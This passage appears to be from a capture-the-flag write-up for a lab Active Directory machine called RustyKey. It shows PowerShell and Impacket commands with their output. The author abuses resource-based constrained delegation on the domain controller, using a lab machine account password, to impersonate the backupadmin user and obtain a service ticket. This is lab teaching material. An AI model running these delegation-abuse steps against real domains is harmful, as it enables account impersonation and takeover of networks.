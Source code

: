 ```powershell
PS C:\Windows> Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb
DNSHostName                          : dc.rustykey.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : dee94947-219e-4b13-9d41-543a4085431c
PrincipalsAllowedToDelegateToAccount : {CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-3316070415-896458127-4139322052-1000
UserPrincipalName                    :
```

We see that `DC` have **Allowed To Act On Behalf Of Other Identity** (Resource-Based Constrained Delegation) to `IT-Computer3` user. <br>
In the bloodhound refs, I found this [rbcd](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) and see that `IT-Computer3` has the **PrincipalsAllowedToDelegateToAccount** which mean "trust this computer for delegation". <br>
&rarr; We can able to reassign **PrincipalsAllowedToDelegateToAccount** to contain only `IT-Computer3$`.

```powershell
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount "IT-COMPUTER3$"
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount "IT-COMPUTER3$"
PS C:\Windows>
```

Now `IT-Computer3` is allowed to impersonate any user when accessing resources on `DC`. After reading the [rbcd](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd), we can able to obtain the ticket through [s4u2self](https://www.thehacker.recipes/ad/movement/kerberos/delegations/s4u2self-abuse). <br>
&rarr; We gonna do it with `backupadmin` user.

```bash
└─$ getST.py -spn 'cifs/DC.RUSTYKEY.HTB' -impersonate backupadmin -dc-ip 10.129.4.62 -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating backupadmin
/usr/local/bin/getST.py:378: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/local/bin/getST.py:475: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/local/bin/getST.py:605: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/usr/local/bin/getST.py:657: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in backupadmin@cifs_DC.RUSTYKEY.HTB@RUSTYKEY.HTB.ccache
```
